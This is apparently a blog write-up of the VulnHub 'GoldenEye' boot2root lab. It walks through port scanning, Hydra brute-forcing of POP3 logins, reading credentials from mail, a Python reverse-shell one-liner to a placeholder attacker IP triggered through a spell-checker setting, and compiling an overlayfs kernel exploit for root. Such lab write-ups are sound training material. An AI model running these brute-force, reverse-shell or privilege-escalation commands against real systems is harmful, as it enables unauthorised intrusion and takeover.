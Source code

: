 ```yaml
---
title: "Golden Eyes"
date: "2025-04-01T12:50:00+07:00"
draft: false
categories: "write-up"
tags: ["boot2root", "vulnhub", "ctf"]
cover:
  image: "/2025/1/cover.png"
  # can also paste direct link from external site
  # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
  alt: "alt"
  caption: "caption"
  relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```

#### If you want to follow along here's the link for it : [VulnHub](https://www.vulnhub.com/entry/goldeneye-1,240/)  


Back again with another CTF write-up! This time, it’s all about mail servers. Let's dive in.
## Enumeration

First, we perform basic enumeration using netdiscover and nmap. A full port scan is necessary for this challenge:
![NMAP](/2025/1/1.png)

Upon inspecting the website, we find terminal.js. Decoding it (e.g., via CyberChef) reveals the string InvincibleHack3r, which serves as valid credentials for the user boris.  
![terminal.js](/2025/1/2.png)

## Gaining Access to the Mail Server

Next, we explore port 55007. The index.html file contains commented-out references to "GNO operator," hinting at a possible brute-force attack using Hydra. The following command helps us brute-force a valid login:

we can use this command below for boris and natalya
```bash
hydra -l boris -P /usr/share/wordlist/fasttrack.txt <IP> -s<PORT> -I pop3 
```
as shown here,  
![boris](/2025/1/3.png)  
![natalya](/2025/1/4.png)

we can now login into the port, To manually connect to the mail server:
```bash
nc <VICTIM HOST> 55007
```
Logging in as natalya provides useful information. Use the following commands to interact with the mail server: below you can login, list and retrieve a message [More here](https://cs.bilkent.edu.tr/~terzi/cs421/homeworks/Fall2011_PA1v5.pdf)  
```bash
USER natalya
PASS bird
LIST
RETR 2
```

This retrieves an email containing credentials for xenia:  
![RETR 2](/2025/1/5.png)

## Further Access and Enumeration

Before proceeding, we must edit /etc/hosts appropriately like so :
![hosts](/2025/1/6.png)

Upon logging in, a message appears:,  
![doak](/2025/1/7.png)

Another brute-force attack is required:  
![doak](/2025/1/8.png)

The message below provides the next clue:
![message](/2025/1/9.png)

Logging in with the discovered credentials, we find a secret.txt file, directing us to /dir007key/for-007.png:
![secret](/2025/1/10.png)

Using binwalk and exiftool, we analyze the image: 
![for007](/2025/1/11.png)

Deciphering the hidden message via CyberChef reveals the username admin since we have tried boris, natalya, and doak but not admin:   
![admin](/2025/1/12.png)  

## Gaining a Reverse Shell

Based on prior experience with CoffeeAddicts, we aim for a reverse shell by injecting a plugin that executes our payload. We modify the system path of `aspell` to achieve this:

This payload you can find more here [gtfobins](https://gtfobins.github.io/)
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
On the attacker's machine, set up a listener:
```bash
nc -nlvp <attacker_port>
```

However, before executing, we must alter aspell from Google’s spell checker to our own custom script:

![tinymcm](/2025/1/13.png)   

Upon clicking the spell checker triggers the reverse shell:  
![clicking](/2025/1/14.png) 

## Privilege Escalation

Running Linpeas identifies potential privilege escalation paths:  
![scan](/2025/1/15.png)

After testing various exploits, the overlayfs vulnerability proves effective. The exploit can be found here: [overlayfs](https://www.exploit-db.com/exploits/37292/).

Since the victim machine lacks `gcc`, we modify the exploit to use `cc` using `vim` we can just do:
```vi
:%s/gcc/cc
```
Compile and execute it:
```bash
cc 37292.c -o wololo && ./wololo
```

Success! We obtain root access:
![root](/2025/1/16.png)

Finally, we retrieve the flag as suggested:
![flag](/2025/1/17.png)

## Conclusion

This was a fun challenge involving enumeration, brute-force attacks, hidden messages, reverse shells, and privilege escalation. Hope you enjoyed the write-up!